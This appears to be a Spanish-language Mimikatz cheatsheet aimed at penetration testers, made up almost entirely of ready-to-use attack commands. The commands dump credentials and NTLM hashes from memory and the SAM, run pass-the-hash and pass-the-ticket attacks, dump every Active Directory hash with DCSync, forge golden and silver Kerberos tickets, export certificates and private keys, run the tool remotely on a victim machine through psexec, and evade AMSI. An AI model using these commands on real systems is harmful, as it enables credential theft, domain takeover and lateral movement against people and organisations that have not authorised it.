 # 🛠️ Mimikatz Cheatsheet (para Pentesters)

---

## ⚙️ INICIAR MIMIKATZ

```cmd
mimikatz.exe
```

### Ejecutar como administrador:
- Necesario para la mayoría de comandos.

---

## 🔑 1. **Credenciales en Memoria (sekurlsa)**

```cmd
privilege::debug            # Eleva privilegios dentro de mimikatz
log sekurlsa.log            # Guarda la salida en un archivo

sekurlsa::logonpasswords    # Muestra credenciales en memoria (usuarios logueados)
sekurlsa::searchPasswords   # Busca contraseñas directamente (menos verboso)
```

> **Nota**: `sekurlsa::logonpasswords` requiere ejecutar como SYSTEM o desde una sesión con privilegios elevados.

---

## 📀 2. **Hashes NTLM (usados para Pass-the-Hash)**

```cmd
sekurlsa::logonpasswords
```

- Busca el campo `NTLM` o `Hash` y anota los hashes.
- Usar con herramientas como `pth-winexe`, `evil-winrm`, etc.

---

## 🔐 3. **Pass-The-Hash**

```cmd
sekurlsa::pth /user:Administrador /domain:LAB /ntlm:<HASH> /run:cmd.exe
```

> Ejecuta una shell autenticada como el usuario, usando el hash NTLM en vez de la contraseña.

---

## 🪪 4. **Pass-The-Ticket (Kerberos TGT)**

### Extraer TGT:

```cmd
sekurlsa::tickets           # Muestra tickets Kerberos actuales
```

### Inyectar TGT:

```cmd
kerberos::ptt <archivo.kirbi>
```

> Ideal para movimiento lateral si capturas tickets con Rubeus u otra herramienta.

---

## 🧠 5. **OverPass-The-Hash (a.k.a. Pass-The-Key)**

```cmd
sekurlsa::logonpasswords      # Para obtener hash NTLM
sekurlsa::pth /user:usuario /domain:dominio.local /ntlm:<hash> /aes256:<aeskey> /run:cmd.exe
```

---

## 🔑 6. **Extraer Hashes del SAM / SYSTEM**

```cmd
token::elevate
lsadump::sam
```

> Extrae los hashes locales de cuentas del sistema.

---

## 🏦 7. **Dumpear Active Directory (LSA Secrets / NTDS)**

### a) Secrets del sistema (LSA Secrets):

```cmd
lsadump::secrets
```

### b) NTDS.dit (base de datos AD):

```cmd
lsadump::dcsync /domain:dominio.local /user:usuario
```

### Dump completo de todos los hashes de AD:

```cmd
lsadump::dcsync /domain:dominio.local /all /csv
```

> Este comando simula el comportamiento de un DC y requiere privilegios de `Replicating Directory Changes`.

---

## 📂 8. **Golden Ticket**

### Crear TGT falso con la clave KRBTGT:

```cmd
kerberos::golden /user:Usuario /domain:dominio.local /sid:S-1-5-21-... /krbtgt:<hash> /id:500
```

> Luego lo cargas con:

```cmd
kerberos::ptt ticket.kirbi
```

---

## 🤖 9. **Silver Ticket**

```cmd
kerberos::golden /domain:dominio.local /sid:<SID> /target:SERVICIO/maquina /service:<SPN> /rc4:<hash> /user:usuario /ptt
```

> Utilizado para acceder directamente a servicios como CIFS, HTTP, sin necesidad de autenticarse al DC.

---

## 📅 10. **Exportar Certificados (para ataques con Certi)**

```cmd
crypto::certificates /export
crypto::keys /export
```

> Exporta certificados almacenados para usar con ataques tipo **PKINIT** o autenticación con smartcards.

---

## 🔍 11. **Otros Comandos ÚTiles**

### Elevar privilegios (para SYSTEM):

```cmd
token::elevate
```

### Listar sesiones activas:

```cmd
ts::sessions
```

### Ejecutar comandos directamente:

```cmd
!whoami
!ipconfig
```

---

## 📁 12. **Uso con PSEXEC o Impacket**

Puedes dejar Mimikatz en una máquina víctima y ejecutarlo remotamente, por ejemplo:

```bash
psexec.exe \\IP -u usuario -p contraseña cmd.exe
```

> Luego ejecutas mimikatz desde ahí.

---

## 🔐 13. **Bypass UAC y AMSI (si es necesario)**

Algunas versiones de Mimikatz permiten evadir AMSI:

```cmd
misc::amsi
```

O puedes cargarlo en memoria con herramientas como `Invoke-Mimikatz`, `SharpKatz` o `PELoader`.

---

